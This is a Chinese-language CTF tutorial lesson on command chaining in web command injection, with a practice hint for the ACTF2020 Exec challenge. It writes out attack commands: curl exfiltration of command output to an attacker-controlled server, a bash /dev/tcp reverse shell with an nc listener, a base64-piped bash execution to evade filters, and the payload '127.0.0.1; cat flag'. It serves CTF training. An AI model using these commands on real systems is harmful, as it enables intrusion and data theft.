





# CTF教程：P6：ctf-web05_联合执行 🚀

在本节课中，我们将要学习CTF Web题目中一个非常关键的技术点：命令联合执行。我们将探讨如何将多个系统命令组合在一起执行，并了解不同连接符的作用与区别。这对于解决命令注入类题目至关重要。

## 概述

在上一节中，我们介绍了基本的命令执行漏洞。本节中我们来看看如何将多个命令组合执行，即“联合执行”。掌握不同的命令连接符，能让你在解题时更加灵活。

## 命令联合执行的方法

以下是几种常见的命令联合执行方式，它们使用不同的符号来连接命令。

*   **分号 `;`**
    *   这是最常用的无条件联合执行符。
    *   无论前一个命令是否执行成功，后面的命令都会继续执行。
    *   公式：`命令A ; 命令B`

*   **逻辑与 `&&`**
    *   这是一个“短路与”操作符。
    *   只有当前一个命令执行成功（返回状态码为0）时，才会执行后一个命令。
    *   公式：`命令A && 命令B`

*   **逻辑或 `||`**
    *   这是一个“短路或”操作符。
    *   只有当前一个命令执行失败（返回状态码非0）时，才会执行后一个命令。
    *   公式：`命令A || 命令B`



*   **管道符 `|`**
    *   它将前一个命令的标准输出（stdout）作为后一个命令的标准输入（stdin）。
    *   常用于数据流的处理。
    *   代码示例：`echo “abc” | md5sum`

*   **换行符 `\n`**
    *   在系统Shell中，换行符的作用类似于按下了回车键，可以分隔命令。
    *   但需要注意的是，并非所有Web应用的命令执行上下文都支持换行符，需要具体测试。



除了联合执行，还有一种“内联执行”（例如使用反引号 `` ` `` 或 `$()`），我们将在后续章节中详细介绍。

## 无回显命令执行的应对策略

在实际题目中，经常会遇到“无回显”的命令执行，即命令被执行了，但我们看不到输出结果。针对这种情况，主要有两种解决思路。

*   **数据带出 (Out-of-Band)**
    *   核心思想：让目标服务器主动把数据发送到我们控制的服务器上。
    *   **方法1：HTTP请求带出**
        *   让目标执行 `curl http://your-server.com/?data=$(命令)`，将命令结果作为URL参数发送到你的服务器。
    *   **方法2：反弹Shell (Reverse Shell)**
        *   这是更强大的方法，可以直接获取一个交互式的Shell会话。
        *   在你的服务器上监听一个端口：`nc -lvnp 12345`
        *   在目标上执行反弹Shell命令。一个常用的Bash反弹命令是：
        ```bash
        bash -c ‘bash -i >& /dev/tcp/你的IP/你的端口 0>&1’
        ```
        *   如果命令执行有字符限制或过滤，可以尝试对命令进行Base64编码后执行：
        ```bash
        echo “YOUR_BASE64_ENCODED_COMMAND” | base64 -d | bash
        ```

*   **延时盲注 (Time-Based Blind)**
    *   当目标服务器无法出网（不能连接外部网络）时，数据带出方法会失效。
    *   此时可以利用命令执行结果的差异来制造时间延迟，从而判断信息。
    *   原理：如果某个条件成立，就执行一个耗时的命令（如 `sleep 5`）。
    *   示例：判断当前目录下是否存在 `flag` 文件：
    ```bash
    test -f flag && sleep 5
    ```
    *   通过观察命令是否延迟5秒响应，来判断文件是否存在。这类似于SQL注入中的时间盲注。





## 实战练习建议

如果你想巩固命令执行的知识，可以尝试完成一道基础题目。

*   **题目**：ACTF2020 的 `Exec` 题目（可能在BUU等CTF平台上）。
*   **简介**：这是一道非常基础的命令执行题。
*   **提示**：通常只需要输入 `127.0.0.1; cat flag` 即可获得flag。

## 总结




本节课中我们一起学习了CTF Web中命令联合执行的各种技巧。我们掌握了分号、逻辑符、管道符等连接符的用法，并深入探讨了应对无回显命令执行的两种核心策略：数据带出和延时盲注。理解这些概念是解决中高级命令注入题目的基础。在下一节中，我们将学习命令执行中的另一个重要概念：内联执行。